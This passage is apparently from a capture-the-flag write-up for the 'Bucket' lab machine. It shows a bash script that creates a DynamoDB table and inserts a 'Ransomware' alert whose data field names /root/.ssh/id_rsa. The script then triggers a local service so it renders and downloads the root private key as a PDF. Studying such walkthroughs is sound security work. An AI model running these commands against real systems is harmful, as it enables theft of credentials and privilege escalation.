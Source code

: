 ```bash
        "TableSizeBytes": 0,
        "ItemCount": 0,
        "TableArn": "arn:aws:dynamodb:us-east-1:000000000000:table/alerts"
    }
}
```

We can then verify the table has been created:

```bash
roy@bucket:~$ aws --endpoint-url=http://localhost:4566 dynamodb list-tables
{
    "TableNames": [
        "alerts",
        "users"
    ]
}
```

Excellent.

### Scripting the Process

Trying to re-run our `curl` command again threw the non-existent table error, and re-running `list-tables` showed it had been deleted. This suggests there is a cleanup script running on the box. We could verify this by running `pspy`, but I will take it as a given.

In our script we want to create the table, and then immediately put a malicious item in it. Let's start with listing the tables, then we can figure out our payload:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/ddb]
└─$ cat create-and-curl 
aws --endpoint-url=http://s3.bucket.htb dynamodb create-table --table-name alerts --key-schema AttributeName=title,KeyType=HASH --attribute-definitions AttributeName=title,AttributeType=S --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
```

Running this successfully creates our table.

#### Creating a Malicious Alert

Now we need to create an alert that will read a sensitive file. Looking at the code, the `title` field needs to equal "Ransomware", and then we can put whatever we like in the `data` field.

We use the `put-item` method to do this. [Reading the docs](https://docs.aws.amazon.com/cli/latest/reference/dynamodb/put-item.html) explains how to do this, and the method allows us to set our `data` attribute.

Let's go with `/root/.ssh/id_rsa` to read their private key.

Here's our initial script:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/ddb]
└─$ cat create-and-curl 
aws --endpoint-url=http://s3.bucket.htb dynamodb create-table --table-name alerts --key-schema AttributeName=title,KeyType=HASH --attribute-definitions AttributeName=title,AttributeType=S --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
aws --endpoint-url=http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{ "title": {"S": "Ransomware"},"data": {"S": "/root/.ssh/id_rsa"} }' --return-consumed-capacity TOTAL
aws --endpoint-url=http://s3.bucket.htb dynamodb scan --table-name alerts

curl -X POST -d 'action=get_alerts' localhost:8000
sleep 0.5
wget localhost:8000/files/result.pdf
```
